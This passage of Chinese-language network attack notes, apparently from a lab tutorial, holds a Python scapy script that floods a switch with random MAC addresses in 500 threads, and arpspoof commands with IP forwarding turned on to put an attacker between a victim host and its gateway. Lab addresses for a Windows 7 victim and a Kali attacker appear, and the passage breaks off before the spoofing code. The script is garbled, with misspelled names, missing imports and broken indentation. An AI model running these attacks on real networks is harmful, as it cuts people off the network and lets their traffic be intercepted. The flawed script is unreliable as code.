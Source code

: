 ```python
from scapy.volatile import RandMAC, RandIP

def mac_flood():
	while True:
        # 使用RandMa产生的randmac每次被调用的值都是随机的
        randmac = RandMac("*:*:*:*:*:*")
        srandip = f"{randdom.randint(1,254)}.{random.randint(1,254)}.{random.randint(1,254)}.{random.randint(1,254)}"
        drandip = f"{randdom.randint(1,254)}.{random.randint(1,254)}.{random.randint(1,254)}.{random.randint(1,254)}"
        packet = Ether(src=randmac,dst=randmac)/ip(src=srandip,dst=drandip)
        # sendp用于发送二层数据包
        sendp(packet,iface='填入要发送的网卡名',loop=0)
        
        
if __name__ == '__main__':
for i in range(500):
    threading.Thread(target=mac_flood).start()
```

## 三、ARP攻击和欺骗

### 1.目的

- ARP攻击：目的是让某台主机无法上网
- ARP欺骗：让被攻击的主机的 流量经过攻击机
- ARP地址解析协议：用于将IP地址转换成MAC地址，进而让交换机可以正确找到目的地

### 2.Linux实施攻击

- 在Linux上进行攻击：使用arpspoof工具

  ```shell
  arpspoof -i eth0 -t 被攻击IP 网关IP
  
  # 开启流量转发
  echo 1 >> /proc/sys/net/ipv4/ip_forward
  # 实施ARP欺骗
  arpspoof -i eth0 -t 被攻击IP 网关IP
  ```

### 3.使用scapy完成ARP欺骗

- 如何构造ARP欺骗数据包：攻击主机需要欺骗被攻击主机，让被攻击主机把攻击主机视为网关，这样出口流量可以经过该攻击主机，另外，攻击主机还需要欺骗网关，让网关以为入口流量的目的地就是攻击主机。攻击主机告诉被攻击主机我是网关，告诉网关我是被攻击主机。

> windows7被攻击主机    IP：192.168.101.129	MAC：00:0c:29:ce:54:b6
>
> kali linux攻击主机	  IP：192.168.101.128	MAC：00:0c:29:42:2b:fc
>
> 网关				  IP：192.168.101.1	 
